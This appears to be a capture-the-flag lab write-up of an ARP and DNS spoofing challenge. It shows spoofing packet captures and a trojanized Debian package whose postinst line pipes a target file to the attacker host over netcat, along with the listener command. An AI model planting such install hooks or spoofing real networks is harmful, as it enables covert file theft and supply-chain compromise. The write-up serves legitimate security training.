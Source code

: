 # Objective 9: ARP Shenanigans

The objective is to get hold of the file /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt on a remote host using ARP  and DNS spoofing.

Exercise setup:
||Local Host|Remote Host  |
|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 |
|IP| 10.6.0.2 | 10.6.6.35 |

A Python Scapy script was prepared to spoof ARP replies for the host 10.6.6.53 redirecting the traffic to the local host.

Capture of ARP spoofing success with following DNS query:

    15:57:47.028750 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
    15:57:47.057274 IP 10.6.6.35.27609 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)`

Capture of ARP and DNS spoofing with following HTTP request:

    17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
    17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
    17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
    17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
    17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
    17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0

A Node.js HTTP server was started and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the device the Debian package netcat-traditional_1.10-41.1ubuntu1_amd64.deb was found.
This package was modified to include this line in the postinst script:

    /bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt

and then made available in the web tree folder as pub/jfrost/backdoor/suriv_amd64.deb.
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt).
In this file can be found that **Tanta Kringle** recused herself from the vote.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTM0NTUwNTI3MSwtODc4MzkyMjE2LDUxND
IwOTE1OV19
-->